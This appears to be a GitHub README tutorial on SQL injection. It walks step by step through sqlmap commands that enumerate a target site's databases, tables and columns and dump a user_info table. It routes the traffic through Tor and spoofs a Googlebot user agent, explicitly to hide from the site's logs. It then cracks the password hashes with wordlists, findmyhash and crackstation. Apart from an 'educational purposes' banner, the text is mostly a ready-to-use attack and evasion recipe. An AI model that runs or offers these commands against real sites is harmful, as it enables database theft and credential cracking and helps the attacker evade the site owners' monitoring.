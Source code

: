 # Injection-attacks

Injection attacks refer to a broad class of attack vectors that allow an attacker to supply untrusted input to a program, which gets processed by an interpreter as part of a command or query which alters the course of execution of that program

#####################################
## For Educational Purposes Only!!!##
#####################################
>>sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.
source link: https://github.com/sqlmapproject/sqlmap

Step 1: 
Listing DBMS databases SQLMap
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 --dbs
What this command does:
sqlmap = Name of sqlmap binary file to execute
-u = Target URL (e.g. “http://www.testwebsite.com/cgi-bin/item.cgi?item_id=15”)
–dbs = Tell SQLMap to Enumerate DBMS databases.

Step 2:
Listing DBMS Using Tor with SQLMap for anonymity.

Add these option to your sqlmap command to use tor along side SQLMap.

--tor --tor-type=SOCKS5
What this command does is tells SQLMap to use our Tor Tunnel instead of our original network address.

For example:

sqlmap -u http://target-website.com/listproducts.php?cat=2 --tor --tor-type=SOCKS5

Step 3: 
Listing DBMS Using Tor + Google User Agent with SQLMap for anonymity
sqlmap -u http://target-website.com/listproducts.php?cat=2 --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

We will be using Tor and setting a Google Crawler as a user agent for additional obscurity. Google’s crawlers will often visit websites, and are one of the least suspicious entities in the website’s error logs

Step 4:
Listing database tables in target MySQL Database.
sqlmap -u http://www.target-website.com/cgi-bin/item.cgi?item_id=15 -D databasetable --tables --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

Replace -D databasetable with the name of the database table you are targeting

Step 5:
Listing Database Columns
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info --column --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

Step 6:
Listing from Target Columns
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_login --dump --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

Step 7:
We have now successfully listed the contents of the database we can then extract information from these tables by using the following command again.

sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_login --dump --tor --tor-type=SOCKS5 --user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

>SQLMap will now prompt for a word list. In this tutorial I will be using the default word list so I will choose option (1) from the menu
>SQLMap will then start cracking password hash’s from the SQL Database tables.
>Lets say we have tried lots of word lists and we still can’t decrypt the hash. We can use a tool called findmyhash.

Find My Hash uses the internet to connect to various Databases around the net. To find if the hash you are trying to crack has already been decrypted by someone else in the past.

To use Find My Hash type findmyhash from a terminal.

# findmyhash

> (Free Password Hash Cracker: https://crackstation.net/)



